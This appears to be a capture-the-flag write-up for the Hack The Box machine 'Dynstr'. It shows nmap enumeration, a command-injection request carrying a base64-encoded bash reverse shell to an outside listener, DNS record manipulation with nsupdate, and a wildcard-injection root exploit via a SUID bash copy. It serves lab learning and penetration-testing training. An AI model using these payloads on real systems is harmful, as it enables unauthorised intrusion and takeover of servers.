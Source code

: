 ```yaml
---
permalink: /dyster
layout: post
author: jkr
title: Writeup
date: 2021-10-17
publish: True
description: "Dynstr is a medium difficulty Linux machine featuring a blog providing Dynamic DNS services. The application API is vulnerable to command injection using which a foothold can be gained. Enumerating one of the users folders leaks SSH private key. Updating DNS zone records allows SSH access which helps in lateral movement. By exploiting a wildcard injection in a bash script root access can be obtained.
"

---
```

# Enumeration
## Nmap

```bash
sudo nmap -sC -sV -oA nmap/dynstr 10.10.10.244

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 05:7c:5e:b1:83:f9:4f:ae:2f:08:e1:33:ff:f5:83:9e (RSA)
|   256 3f:73:b4:95:72:ca:5e:33:f6:8a:8f:46:cf:43:35:b9 (ECDSA)
|_  256 cc:0a:41:b7:a1:9a:43:da:1b:68:f5:2a:f8:2a:75:2c (ED25519)
53/tcp   open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Dyna DNS


```

Three ports 
- 22
- 53
- 80

![](/Writeups/Dyster/Pasted image 20211017070917.png)

Ubuntu 20

# FootPath
### Port 80

![](/Writeups/Dyster/Pasted image 20211017070142.png)

![](/Writeups/Dyster/Pasted image 20211017070217.png)

Creds

|Username|Password|
|---|---|
|dynadns| sndanyd|

We are providing dynamic DNS for anyone with the same API as no-ip.com has. Maintaining API conformance helps make clients work properly.


Dynamic DNS for a number of domains:

-   dnsalias.htb
-   dynamicdns.htb
-   no-ip.htb

no-ip API

```
http://username:password@dynupdate.no-ip.com/nic/update?hostname=mytest.example.com&myip=192.0.2.25

```

Port 53

```bash

dig axfr @10.10.10.244 dynstr.htb


; <<>> DiG 9.16.12-Debian <<>> axfr @10.10.10.244 dynstr.htb
; (1 server found)
;; global options: +cmd
; Transfer failed.


```

Checking for zones It didn't work.

Sql Injection in API


```bash
GET /nic/update?hostname=t`echo+YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC40OC85MDAxIDA%2bJjEK|+base64+-d+|+bash`est.no-ip.htb&myip=10.10.14.48 HTTP/1.1
Host: 10.10.10.244
Authorization: Basic ZHluYWRuczpzbmRhbnlk
User-Agent: curl/7.74.0
Accept: */*
Connection: close

```

![](/Writeups/Dyster/Pasted image 20211017073334.png)

```bash

## first command Replace ip and port

echo 'bash -i >& /dev/tcp/10.10.14.48/9001 0>&1' | base64 

## second command

echo -ne YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC85MDAxIDA+JjEK| base64 -d | bash

```

![](/Writeups/Dyster/Pasted image 20211017073652.png)

TTY shell

```bash
python3 -c 'import pty; pty.spawn("bin/bash")'
ctrl+z 
stty -raw echo;fg 
return 
export TERM=xterm

```


# User

private_key for bindmgr found at `/home/bindmgr/support-case-C62796521`

![](/Writeups/Dyster/Pasted image 20211017074518.png)

copy to your machine use vim editor to replace new line

```vim

:s/\\n/\r/g

```

sshing using private key is not working.

![](/Writeups/Dyster/Pasted image 20211017075036.png)

Entry is only allowed from a patricular domain `.infra.dyna.htb`

looking at update file at /var/www/html/nic we can our ip to that domain using nsupdate to create new DNS record

```php
www-data@dynstr:/var/www/html/nic$ cat update 
<?php
  // Check authentication
  if (!isset($_SERVER['PHP_AUTH_USER']) || !isset($_SERVER['PHP_AUTH_PW']))      { echo "badauth\n"; exit; }
  if ($_SERVER['PHP_AUTH_USER'].":".$_SERVER['PHP_AUTH_PW']!=='dynadns:sndanyd') { echo "badauth\n"; exit; }

  // Set $myip from GET, defaulting to REMOTE_ADDR
  $myip = $_SERVER['REMOTE_ADDR'];
  if ($valid=filter_var($_GET['myip'],FILTER_VALIDATE_IP))                       { $myip = $valid; }

  if(isset($_GET['hostname'])) {
    // Check for a valid domain
    list($h,$d) = explode(".",$_GET['hostname'],2);
    $validds = array('dnsalias.htb','dynamicdns.htb','no-ip.htb');
    if(!in_array($d,$validds)) { echo "911 [wrngdom: $d]\n"; exit; }
    // Update DNS entry
    $cmd = sprintf("server 127.0.0.1\nzone %s\nupdate delete %s.%s\nupdate add %s.%s 30 IN A %s\nsend\n",$d,$h,$d,$h,$d,$myip);
    system('echo "'.$cmd.'" | /usr/bin/nsupdate -t 1 -k /etc/bind/ddns.key',$retval);
    // Return good or 911
    if (!$retval) {
      echo "good $myip\n";
    } else {
      echo "911 [nsupdate failed]\n"; exit;
    }
  } else {
    echo "nochg $myip\n";
  }
?>
```


```bash
www-data@dynstr:/var/www/html/nic$ nsupdate -t 1 -k /etc/bind/infra.key 
> ADD aju.infra.dyna.htb 30 IN A 10.10.14.91
> send
> ADD 91.14.10.10.in-addr.arpa 30 IN PTR aju.infra.dyna.htb
> send
```

![](/Writeups/Dyster/Pasted image 20211017084635.png)

# Root

User bindmgr may run the following commands on dynstr:
    (ALL) NOPASSWD: /usr/local/bin/bindmgr.sh
	
	```bash
	cp .version * /etc/bind/named.bindmgr/
	```
	
We can exploit cp to get root

Do following

```bash

echo 1 >.version
cp /bin/bash . 
chmod u+s bash 
touch -- '--preserve=mode'

```
	
![](/Writeups/Dyster/Pasted image 20211017085933.png)


[back](/writeups2)

